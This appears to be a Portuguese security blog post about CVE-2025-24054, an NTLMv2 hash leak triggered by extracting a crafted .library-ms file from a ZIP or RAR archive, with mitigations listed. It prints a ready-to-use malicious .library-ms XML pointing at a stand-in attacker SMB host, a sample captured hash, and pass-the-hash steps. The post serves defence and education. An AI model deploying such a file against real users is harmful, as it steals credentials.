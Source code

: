 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot"
images:
  - images/SemTitulo-1.png
  - "images/post/SemTitulo-2.png" 
draft: false
tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).

Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

- **Tentar ataques de "Pass-the-Hash"**: Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
- **Tentar Quebra de Senha Offline**: O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:

- **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso

1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

   - **O que é SMB (Server Message Block)?** De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede.

2. **Exemplo de Conteúdo Malicioso no `.library-ms`**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///servidor-do-atacante.com/recurso_malicioso</url>
                <!-- Outra variação poderia ser: <url>\servidor-do-atacante.com
ecurso_malicioso</url> -->
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```

A parte crucial é `<url>file://///servidor-do-atacante.com/recurso_malicioso</url>`, que instrui o Explorer a tentar acessar um compartilhamento SMB no servidor do atacante.

3. **Entrega e Extração**: O invasor comprime este arquivo `.library-ms` (e talvez outros arquivos isca) em um arquivo `.zip` ou `.rar` e o envia para a vítima.

4. **A Mágica (Ruim) Acontece**: Quando o usuário desavisado baixa e extrai o conteúdo do arquivo ZIP/RAR, o Windows Explorer tenta se conectar automaticamente ao caminho SMB especificado.

5. **Vazamento do Hash**: Durante essa tentativa de conexão automática ao servidor SMB do atacante, o Windows envia as credenciais do usuário na forma de um handshake de autenticação NTLM. O servidor do atacante captura o **hash NTLMv2** do usuário.

**Usuário Fictício**: `MEUDOMINIO\UsuarioAlvo`  
**Hash NTLMv2 Capturado (Exemplo Fictício)**:  
`UsuarioAlvo::MEUDOMINIO:1122334455667788:AABBCCDDEEFF00112233445566778899:0101000000000000009a8b7c6d5e4f3a0000000002000000...`

## Ataques Possíveis com o Hash

- **Quebra de Senha Offline**: O hash NTLMv2 pode ser submetido a ferramentas como Hashcat ou John the Ripper com wordlists para tentar descobrir a senha real.
- **Ataques de "Pass-the-Hash" (PtH)**: O invasor usa o hash diretamente para se autenticar.

### Exemplo Conceitual de PtH

1. O atacante capturou o hash NTLMv2 de `MEUDOMINIO\UsuarioAlvo`.
2. Esse usuário também é administrador de um servidor chamado "SERVIDOR_ALVO".
3. O atacante usa o hash com ferramentas como PsExec ou Impacket para acessar esse servidor.
4. Se o servidor aceitar NTLM, o atacante obtém acesso como administrador.

## Recomendações

1. **Mantenha o Windows Atualizado**
2. **Cuidado com arquivos ZIP/RAR de fontes desconhecidas**
3. **Ambientes corporativos**:
   - Desative NTLM se possível, use Kerberos
   - Restrinja conexões SMB externas
   - Monitore tentativas de autenticação NTLM suspeitas

## Conclusão
![Bypass da Conta Microsoft](/images/post/SemTitulo-2.png)
A CVE-2025-24054 mostra como algo simples como extrair um arquivo pode expor credenciais sensíveis. A correção já está disponível, mas a compreensão do vetor de ataque é essencial para defesa preventiva.

---

*Ficou curioso para ver como um ataque de captura de hash NTLM funciona na prática?*

Não perca nosso próximo post: **"Explorando na Prática: Capturando Hashes NTLM com Kali Linux e VMs"**

---

